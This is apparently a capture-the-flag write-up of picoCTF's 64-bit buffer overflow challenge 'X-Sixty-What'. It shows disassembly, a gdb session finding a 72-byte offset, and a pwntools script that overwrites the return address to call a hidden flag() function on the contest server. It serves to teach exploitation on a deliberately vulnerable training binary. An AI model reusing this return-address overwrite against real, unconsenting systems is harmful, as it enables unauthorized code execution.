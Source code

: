 # **X-Sixty-What - 200 pts**

### Key points

- 64-bit x84 structure
- Buffer overflow

---

## **Contents**

- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)

---

## Overview

### Description

> Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the flag function in this program.

---

## Solution

The source code is much like the other buffer overflow challenges. We have a `vuln()` function that takes user input using `gets()`. A function `flag()` reads and prints the flag, but it is never called. We just have to overwrite the return address of `vuln()` to the address of `flag()`.

Use a decompiler/disassembler. I will use objdump.

```
$ objdump -d vuln > vuln.txt
$ cat vuln.txt
...
00000000004012b2 <vuln>:
  4012b2: f3 0f 1e fa     endbr64
  4012b6: 55              push   %rbp
  4012b7: 48 89 e5        mov    %rsp,%rbp
  4012ba: 48 83 ec 40     sub    $0x40,%rsp
  4012be: 48 8d 45 c0     lea    -0x40(%rbp),%rax
  4012c2: 48 89 c7        mov    %rax,%rdi
  4012c5: b8 00 00 00 00  mov    $0x0,%eax
  4012ca: e8 31 fe ff ff  callq  401100 <gets@plt>
  4012cf: 90              nop
  4012d0: c9              leaveq
  4012d1: c3              retq
...
```

The return address of `vuln()` is `0x4012d1`. Open gdb and set a breakpoint there:

...

the `rsp` register points to the return address, so that's what we need to overflow.

Let's find the offset of `rsp`. The buffer size is 64 bytes, so we'll enter a little more than 64.

```
$ gdb vuln
gef>  r
Starting program: /var/www/CanHack/vuln
Welcome to 64-bit. Give me a string that gets you the flag:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbccccddddeeeeffffgggg

Program received signal SIGSEGV, Segmentation fault.
...
$rsp   : 0x007fffffffe318  →  "ddddeeeeffffgggg"
...
```

`rsp` has been overwritten to `ddddeeeeffffgggg`.The offset turns out to be 72, so our payload will be 72 bytes + address of `flag()`.

```
0000000000401236 <flag>:
  401236:       f3 0f 1e fa             endbr64
  40123a:       55                      push   %rbp
  40123b:       48 89 e5                mov    %rsp,%rbp
  40123e:       48 83 ec 50             sub    $0x50,%rsp
```

The second hint suggests we jump to the instruction after the first `push`, so that will be the `mov` instruction at 0x40123b.

---

### The Script

```
from pwn import *

payload = b"a"*72 + p64(0x40123b)

r = remote("saturn.picoctf.net", "60289")
r.sendline(payload)
result = r.recvall()
FLAG = result[result.index("pico"):result.index("}") + 1]
print("Flag:", FLAG)
```

---

## Flag

> `picoCTF{}`
